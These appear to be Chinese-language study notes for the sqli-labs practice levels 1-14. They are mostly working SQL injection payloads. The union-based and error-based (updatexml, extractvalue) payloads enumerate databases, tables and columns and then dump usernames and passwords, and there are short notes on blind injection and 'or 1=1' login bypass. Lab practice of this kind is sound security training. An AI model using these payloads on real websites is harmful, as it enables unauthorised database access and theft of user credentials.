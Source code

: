 1-4联合注入
===

```sql
判断闭合方式 \
爆库    order by 判断列数
        ?id=-2' union select 1,database(),3--+
        ?id=-1' union select 1,group_concat(schema_name) from information_schema.schemata,3 --+
爆表 ?id=-2' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),3--+
爆栏    ?id=-2' union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users'),3 --+
爆数据  ?id=-1' union select 1,(select group_concat(username) from security.users),(select group_concat(password) from security.users) --+
```

5-6报错注入
===

```sql
爆库    and updatexml(1,concat(0x7e,(database()),0x7e),1)--+
        and extractvalue(1,concat(0x7e,(select database()),0x7e))

爆表    and updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,31),0x7e),1)--+
        and extractvalue(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,31),0x7e))--+

爆栏    and updatexml(1,concat(0x7e,substr((select group_concat(column_name) from information_schema.columns where table_name='users'  and table_schema=database()),1,31),0x7e),1)--+
        and extractvalue(1,concat(0x7e,substr((select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()),1,31),0x7e))--+
        and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'and    table_schema=database()),0x7e))--+

爆数据  and updatexml(1,concat(0x7e,substr((select group_concat(concat(username,'^',password)) from users),1,31),0x7e),1) --+
        and extractvalue(1,concat(0x7e,substr((select group_concat(concat(username,'~',password)) from users),1,31),0x7e)) --+
```

7-10
===
布尔盲注

布尔时间盲注

11-12
===
‘or 1=1,永真判断闭合，#注释掉&password等<br>
联合注入/报错注入
>

13-14
===
（1）报错不回显，盲注
（2）报错注入updatexml,extractvalue
